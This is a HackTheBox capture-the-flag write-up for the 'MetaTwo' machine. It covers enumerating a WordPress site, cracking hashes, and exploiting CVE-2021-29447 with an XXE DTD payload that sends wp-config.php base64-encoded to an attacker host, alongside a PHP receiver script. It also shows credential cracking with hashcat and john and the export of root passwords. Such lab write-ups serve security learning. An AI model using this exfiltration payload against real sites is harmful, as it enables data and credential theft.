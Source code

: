 ```yaml
---
layout: post
title: "MetaTwo"
date: 2024-12-28
categories: hackthebox
---
```


`sudo nmap -sC -sV -p- -T4 -oN metatwo 10.10.11.186
`
![[Pasted image 20240529153027.png]]


we got ftp, http and ssh 

I tried ftp anonymous , but didn't lead us anywhere 

let's go explore the port 80 

==wordpress== , I tried admin:admin but didn't help 
![[Pasted image 20240529153402.png]]

if we look around and we tried to read the source page of the wordpress files we will found the following 
![[Pasted image 20240529153826.png]]

if we google this plugin
![[Pasted image 20240529153948.png]]

![[Pasted image 20240529154459.png]]

![[Pasted image 20240529154537.png]]let's crack them 
`hashcat -a 0 -m 400 hashe --user --show

![[Pasted image 20240529160523.png]]
let's login as a manager 

we got access as a manger 

let's enumerate using ==wpscan ==
`wpscan  --url http://metapress.htb --enumerate ap --api-token CvPFdrygDgoTsTqclRanY8Xdf0r5iyLSNIP > wpscan_enumerate_ap
`
![[Pasted image 20240529160827.png]]

I will use this https://github.com/0xRar/CVE-2021-29447-PoC but I will modifcate I liitle 

in the evil.dtd 
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.4:80/index.php?content=%file;'>" >


```

this will get us file on ==base64==  we can use php script to decode it on index.php
```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

```


now let's upload the ==payload.wav==  

and run our server
`php -S 0.0.0.0:80`
![[Pasted image 20240529161315.png]]

http://metapress.htb/wp-admin/upload.php
![[Pasted image 20240529161402.png]]

on our php server 
![[Pasted image 20240529161519.png]]


we got ftp creds , after login we find a file ==send_email.php==
and we got ssh creds on it
![[Pasted image 20240529161638.png]]

![[Pasted image 20240529161705.png]]

interesting directory![[Pasted image 20240529161736.png]]

![[Pasted image 20240529161815.png]]

this utility used to store password and it encrypts them using the ==.keys== 
![[Pasted image 20240529161911.png]]

let's move the private key to out machine and crack it 

`gpg2john gpg > hashes `
![[Pasted image 20240529162050.png]]
`john wordlist=/usr/share/wordlists/rockyou.txt hashes`
![[Pasted image 20240529162311.png]]
`passpie export root` 
![[Pasted image 20240529162504.png]]
![[Pasted image 20240529162614.png]]